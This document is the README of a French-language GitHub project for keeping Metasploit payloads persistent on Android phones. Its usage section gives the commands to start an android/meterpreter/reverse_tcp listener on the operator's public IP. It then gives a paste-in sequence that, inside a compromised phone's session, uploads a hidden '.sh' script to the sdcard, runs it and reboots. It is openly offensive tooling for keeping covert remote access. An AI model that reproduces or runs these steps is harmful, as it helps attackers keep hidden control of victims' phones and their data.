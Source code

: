 # MSF PERSISTANCE ANDROID

![msf](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/logo-msf.png) ![android](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/logo-android.png)


## INDEX

- [Introduction](#INTRODUCTION)
- [Prerequis](#PREREQUIS)
- [Utilisation](#UTILISATION)
- [License](#LICENSE)


## INTRODUCTION

Ce script permet la persistance des payload sur smartphone Android via Metasploit.


## PREREQUIS

utiliser [Metasploit](https://www.metasploit.com/)


## UTILISATION

1 - Mettez le script msf-persistance-android.sh dans votre dossier personnel et renommez le .sh


2 - Ouvrir MSF

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost VOTRE IP PUBLIC
set lport LE PORT DE VOTRE CHOIX
exploit
```


3 - Copier/Coller dans un terminal en console MSF avec une session android/meterpreter/reverse_tcp :

```
cd /
cd sdcard
upload ~/.sh
shell
cd /
cd sdcard
sh .sh
reboot
exit
```


## LICENSE

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://github.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
